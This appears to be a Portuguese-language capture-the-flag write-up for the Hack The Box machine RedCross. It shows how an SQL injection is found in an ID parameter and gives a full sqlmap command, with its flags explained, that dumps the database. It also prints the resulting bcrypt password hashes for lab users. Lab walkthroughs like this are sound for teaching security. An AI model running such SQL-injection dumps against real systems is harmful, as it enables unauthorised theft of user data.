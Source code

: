 Agora logamos como guest:guest

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web18.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web19.png)

#### Identificando SQLI

Olhando na página, temos um campo ID onde podemos inserir algo ali, por exemplo, se inserimos `ID=1` temos uma mensagem do admin...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web20.png)

O que aconteceria se mandassemos um `'`?

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web21.png)

Opa! Temos mensagem de erro, então possivelmente temos um ponto de SQLInjection aqui!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web22.png)

Vamos mandar para o BurpSuite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web23.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web24.png)

Salvamos como um arquivo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web25.png)

Então vamos passar essa requisição para o `sqlmap` e tentar extrair informações!

`sqlmap -r admin.req --batch --dbms mysql --force-ssl -p o --dump`

Explicação parâmetros sqlmap

> -r --> qual arquivo da requisição

> --batch --> vai pegar a resposta padrão das perguntas Y/N

> --dbms mysql --> já indiquei que o banco de dados é mysql, pra agilizar

> --force-ssl --> vai forçar conexão SSL, pois o site é na porta 443

> -p o --> indiquei qual que é o parâmetro vulnerável, no caso é o o

> --dump --> vai fazer o dump do banco de dados

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web26.png)

Isso demora muito tempo, é bem lento, mas me da as informações que eu preciso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_web27.png)

```
admin:$2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq.
penelope:$2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS
charles:$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i
tricia:$2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. 
guest:$2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi
```
